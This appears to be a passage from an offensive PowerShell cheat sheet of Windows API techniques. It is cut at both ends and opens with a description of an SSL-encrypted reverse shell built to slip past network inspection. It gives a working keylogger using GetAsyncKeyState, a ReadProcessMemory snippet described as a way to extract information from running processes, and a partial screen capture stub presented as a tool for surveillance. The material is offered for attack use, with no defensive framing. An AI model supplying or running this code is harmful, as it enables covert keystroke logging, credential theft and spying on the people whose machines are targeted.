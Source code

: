 Creates an encrypted reverse shell using SSL to secure the communication channel, making it more difficult for network security measures to inspect the traffic.


## **Invoke Windows API for Keylogging**



`Add-Type -TypeDefinition @"     using System;     using System.Runtime.InteropServices;     public class KeyLogger {         [DllImport("user32.dll")]         public static extern int GetAsyncKeyState(Int32 i);     } "@ while ($true) {     Start-Sleep -Milliseconds 100     for ($i = 8; $i -le 190; $i++) {         if ([KeyLogger]::GetAsyncKeyState($i) -eq -32767) {             $Key = [System.Enum]::GetName([System.Windows.Forms.Keys], $i)             Write-Host $Key         }     } }`

This script uses a Windows API call to check the state of each key on the keyboard, effectively logging keystrokes. It can be used to capture user input.

---

## **Accessing Physical Memory with Windows API**



`Add-Type -TypeDefinition @"     using System;     using System.Runtime.InteropServices;     public class MemoryReader {         [DllImport("kernel32.dll")]         public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);     } "@ $process = Get-Process -Name 'process_name' $handle = $process.Handle $buffer = New-Object byte[] 1024 $bytesRead = 0 [MemoryReader]::ReadProcessMemory($handle, [IntPtr]0x00000000, $buffer, $buffer.Length, [ref]$bytesRead)`

This PowerShell script uses the `ReadProcessMemory` function from the Windows API to read a specified amount of memory from a process. It's useful for extracting information from running processes.

---

## **Using Windows API for Screen Capturing**



`Add-Type -TypeDefinition @"     using System;     using System.Drawing;     using System.Runtime.InteropServices;     public class ScreenCapture {         [DllImport("user32.dll")]         public static extern IntPtr GetDesktopWindow();         [DllImport("user32.dll")]         public static extern IntPtr GetWindowDC(IntPtr hWnd);         [DllImport("gdi32.dll")]         public static extern bool BitBlt(IntPtr hObject, int nXDest, int nYDest, int nWidth, int nHeight, IntPtr hObjectSource, int nXSrc, int nYSrc, int dwRop);     } "@ $desktop = [ScreenCapture]::GetDesktopWindow() $dc = [ScreenCapture]::GetWindowDC($desktop) # Further code to perform screen capture goes here`

This script demonstrates how to use Windows API calls to capture the screen. It can be used for surveillance or information gathering.

---

## **Manipulating Windows Services via API**


